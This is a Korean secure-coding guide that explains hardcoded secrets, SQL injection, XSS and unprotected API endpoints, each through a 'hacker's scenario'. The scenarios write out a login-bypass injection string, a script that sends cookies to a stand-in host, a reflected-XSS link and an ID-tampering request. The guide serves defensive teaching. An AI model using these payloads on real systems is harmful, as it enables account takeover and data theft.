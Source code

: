 # VibeCoding 보안 가이드라인 설명: 왜 이렇게 강조할까요?

이 문서는 "보안 가이드라인"의 각 규칙의 중요성을 설명합니다. 이를 이해하면 코드를 "해커의 관점"에서 보고 문제가 발생하기 전에 예방할 수 있습니다.

---

## ⭐ 황금 규칙

### 【비밀 정보 하드코딩 금지】 & 【환경 변수 사용】 & 【비밀 파일 무시】

**왜 중요한가요?**

이 세 가지 규칙은 디지털 세계의 최고 생존 법칙입니다. 여러분의 코드는 (특히 Git을 사용할 때) 복사되고, 공유되고, 여러 곳에 저장됩니다. 비밀번호, API 키 및 기타 "비밀"을 코드에 직접 작성하는 것은 금고 비밀번호를 이마에 문신하는 것과 같습니다 - 여러분을 보는 사람(코드를 보는 사람)은 누구나 쉽게 금고를 열 수 있습니다.

**해커의 시나리오 😈**
> 저는 GitHub에서 `password`, `api_key` 또는 `db_connect`를 검색하는 것을 좋아합니다. 여러분의 공개 프로젝트를 찾았고 `config.js`라는 파일에서 이 코드를 봤습니다: `const db_password = 'Password123!';`. 완벽해요! 여러분의 사이트를 공격할 필요도 없이 이제 이 비밀번호로 데이터베이스에 직접 연결을 시도할 수 있습니다.

**재앙적인 결과 💥**

**서비스의 완전한 장악.** 해커들은 모든 사용자 데이터를 훔치고, 변경하고, 삭제할 수 있으며, 또는 여러분의 유료 API 서비스를 불법 활동에 사용할 수 있고, 모든 청구서는 여러분에게 전달됩니다.

---

## 📥 사용자 입력 처리

### 【SQL 인젝션 공격 방지】

**왜 중요한가요?**

데이터베이스를 SQL 언어만 이해하는 로봇으로 상상해보세요. 사용자 입력을 명령어와 직접 연결하면, 사용자가 자신만의 "명령어"를 말할 기회를 얻습니다. 매개변수화된 쿼리는 로봇에게 "들어봐, 다음 부분은 **단순한 데이터**야 - 내용이 무엇이든 명령어로 실행하지 마"라고 말합니다.

**해커의 시나리오 😈**
> 여러분 사이트의 로그인 창에서 사용자명으로 `' OR '1'='1' --`를 입력했습니다. 여러분의 SQL 쿼리가 이렇게 작성되었다고 가정합니다: `"SELECT * FROM users WHERE username = '" + userInput + "';`. 제 입력이 이것을 `SELECT * FROM users WHERE username = '' OR '1'='1' --';`로 바꿨습니다. `'1'='1'`은 항상 참이므로, 비밀번호 확인을 우회하고 첫 번째 사용자 계정(보통 관리자)으로 성공적으로 로그인했습니다.

**재앙적인 결과 💥**

공격자들은 로그인을 우회하고, 모든 데이터베이스 데이터(사용자 목록, 비밀번호 해시)를 훔치거나, 심지어 데이터베이스를 삭제할 수 있습니다.

### 【크로스 사이트 스크립팅(XSS) 공격 방지】

**왜 중요한가요?**

웹사이트가 사용자 입력 내용을 직접 반영하는 거울과 같다면, 사용자들은 콘텐츠에 악성 JavaScript 스크립트를 삽입할 수 있습니다. 다른 사용자가 이 콘텐츠를 탐색할 때, 악성 스크립트가 그들의 브라우저에서 실행되어 정보를 훔칩니다. HTML 엔티티 인코딩은 악성 스크립트의 특수 문자(`<`, `>` 등)를 무해한 일반 텍스트로 변환하여 실행되지 않도록 합니다.

**해커의 시나리오 😈**
> 여러분 기사의 댓글 섹션에 댓글을 남겼습니다: `<script>fetch('https://hacker.com/steal?cookie=' + document.cookie)</script>`. 이 텍스트가 데이터베이스에 그대로 저장되었습니다. 이제 이 댓글을 읽는 모든 사용자의 브라우저가 자동으로 이 스크립트를 실행하여 로그인 쿠키를 제 서버로 전송합니다. 쿠키로 그들의 신분을 사칭하여 웹사이트에 로그인할 수 있습니다.

**고급 공격 방법: 사용자 A의 코드가 어떻게 사용자 B의 데이터를 훔칠 수 있을까요?**

많은 분들이 궁금해합니다: "공격자가 제 웹사이트를 수정하지 않았는데, 어떻게 다른 사용자의 데이터를 훔칠 수 있나요?" 완전한 예시로 설명해 드리겠습니다:

1. **공격자 A가 악성 링크를 생성**
   ```
   https://yoursite.com/detail.php?id=1<script>steal()</script>
   ```

2. **공격자가 소셜 엔지니어링으로 피해자 B를 속임**
   - 이메일: "이 사진작가의 놀라운 작품들을 보세요!"
   - 소셜 미디어 게시물, 포럼 댓글 등

3. **피해자 B가 링크를 클릭하면 무슨 일이 일어날까요?**
   ```php
   // 여러분의 코드 (취약함)
   <meta property="og:url" content="<?php echo $_SERVER['REQUEST_URI']; ?>">
   
   // B의 브라우저에 실제 출력됨
   <meta property="og:url" content="/detail.php?id=1<script>steal()</script>">
   ```

4. **왜 B의 데이터를 훔칠 수 있을까요?**
   - B는 이미 여러분의 웹사이트에 로그인한 상태입니다
   - 악성 스크립트가 **여러분의 도메인** 하에서 실행되므로:
     - B의 쿠키(로그인 자격 증명)를 읽을 수 있습니다
     - B의 localStorage에 접근할 수 있습니다
     - B의 이름으로 요청을 보낼 수 있습니다
     - 페이지 내용을 수정할 수 있습니다(예: 가짜 로그인 양식)

**간단한 비유**
여러분의 웹사이트를 은행이라고 상상해보세요:
- 공격자 A가 은행 로비에 "가짜 출금 전표"(악성 스크립트)를 배치합니다
- 고객 B가 그것이 합법적이라고 생각하고 비밀번호를 입력합니다
- A가 B의 비밀번호를 얻습니다

XSS는 공격자들이 여러분의 "은행 로비"(웹사이트)에 "가짜 출금 전표"(악성 코드)를 배치할 수 있게 합니다.

따라서 `htmlspecialchars()`를 사용해야 합니다 - 이는 모든 사용자 입력이 실행 가능한 코드가 아닌 일반 텍스트로 표시되도록 보장합니다.

**재앙적인 결과 💥**

대규모 사용자 계정 도난, 개인 데이터 유출, 피싱 콘텐츠나 마이닝 스크립트로 웹사이트가 감염됨.

---

## 🔐 권한 및 인증

### 【API 엔드포인트 보호】

**왜 중요한가요?**

프론트엔드 인터페이스(UI)는 버튼을 숨길 수 있지만, 해커들은 인터페이스를 절대 신뢰하지 않습니다. 그들은 도구(Postman, curl 등)를 사용하여 백엔드 API를 직접 호출합니다. 모든 API 엔드포인트가 직접 공격받을 것이라고 가정해야 하므로, 각 엔드포인트는 독립적인 경비원이 되어 방문자의 신원과 권한을 스스로 확인해야 합니다.

**해커의 시나리오 😈**
> 개인 정보를 수정하기 위해 프론트엔드가 `/api/user/update`로 요청을 보낸다는 것을 발견했습니다. 다른 사람의 수정 버튼은 볼 수 없지만, 이 API가 `userId`를 통해 사용자를 구별한다고 가정했습니다. `/api/user/update?userId=1`(관리자 ID)로 수정하고 싶은 데이터와 함께 요청을 보내봤습니다. 세상에, 서버가 요청이 저 개인적으로 왔는지 확인하지 않고 관리자의 이메일을 성공적으로 변경했습니다!

**재앙적인 결과 💥**

일반 사용자가 다른 사용자나 심지어 관리자의 데이터를 변경하거나, 가져서는 안 될 권한을 실행하여 시스템 혼란을 야기할 수 있습니다.